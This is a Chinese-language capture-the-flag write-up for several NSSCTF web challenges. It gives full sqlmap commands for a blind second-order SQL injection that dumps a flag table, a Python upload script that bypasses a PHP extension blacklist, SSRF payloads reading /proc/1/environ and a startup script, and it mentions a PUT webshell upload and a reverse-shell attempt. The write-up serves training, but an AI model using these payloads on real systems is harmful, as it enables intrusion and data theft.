 #### NSSCTF Round #1

##### basic_check

题目：https://www.nssctf.cn/problem/2199

一个页面内什么都没有，先扫一下目录和可用的请求类型。使用curl的具体命令为：

```shell
curl -X OPTIONS http://example.com -i
```

这道题支持PUT请求

> PUT请求如果URI不存在，则要求服务器根据**请求创建资源**，如果存在，服务器就接受请求内容，并修改URI资源的原始版本。

所以我们可以通过PUT请求传一个一句话木马即可拿到访问权限。

##### sql_by_sql

题目：https://www.nssctf.cn/problem/2200

参考：https://www.cnblogs.com/jackie-lee/p/16124022.html

发现可以注册用户，考虑二次注入。先注册一个amin' --+的恶意用户，再修改密码，这样admin的密码就被改成了我们的输入。在主页发现注入点，需要使用布尔盲注，尝试sqlmap自动化解决。一开始没注成功，把level提高到3成功了。POC如下：

```shell
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --level 3
// 这里的链接：/query data：id=1和cookie的内容用burp抓包就可以看到，即为sqlmap找到正确的注入点
sqlmap -u "http://node4.anna.nssctf.cn:28513/query" --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" --tables
// 这里是确定注入点后使用--tables参数让sqlmap读取数据库的表名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" --columns
// 这里用-T指定数据表后使用--columns参数让sqlmap读取数据库的列名
sqlmap -u http://node4.anna.nssctf.cn:28513/query --data="id=1" --cookie="eyJyb2xlIjoxLCJ1c2VybmFtZSI6ImFkbWluIn0.Zh_m3A.vY-jEXuLAZ9uIGSW8wEm11mOABc" -T "flag" -C "flag" --dump
// 这里打印flag表flag列的内容，得到flag
```

#### NSSCTF 2nd

##### php签到

题目：https://www.nssctf.cn/problem/4280

参考：https://www.anquanke.com/post/id/253383

一道有黑名单的文件上传题，php和phtml肯定是不能直接上传的，考虑文件解析漏洞，发现上传1.php/.可以实现绕过，解析原理应该是文件名提取是最后一个/和.的中间部分，文件后缀提取的是最后一个.后面的部分，但是在操作系统中这种文件名不符合规范，所以/.在传入成功之后会被删除，上传代码为

```python
import requests

url = "http://node5.anna.nssctf.cn:28295"
file_content = "<?php phpinfo();?>'"
file = {"file": ("1.php%2f.", file_content)}
response = requests.post(url, files=file)
print(response.text)
```

之后访问1.php就可以查看phpinfo的内容，在其中找到flag。

##### MyBox

题目：https://www.nssctf.cn/problem/4299

可能是非预期解，直接用file读环境变量。

```php
?url=file:///start.sh		启动服务和设置环境变量的shell脚本，可以对靶机进行初始化，从中可以看到flag的写入位置
?url=file:///proc/1/environ
```

##### MyBox(revenge)

题目：https://www.nssctf.cn/problem/4306

参考：https://blog.csdn.net/Tauil/article/details/125946883

对MyBox的修复，一道[CVE-2021-41773](/CVE/CVE-2021-41773)的题目，首先用file协议查看app.py源代码，发现一个自定义的mybox，可以进行SSRF。这里使用[gopher](./assets/gopher.py)的攻击脚本，得到apache版本，满足CVE攻击方式，按照[脚本](./assets/MyBox.py)进行反弹shell，但是不知道什么原因无法反弹成功。

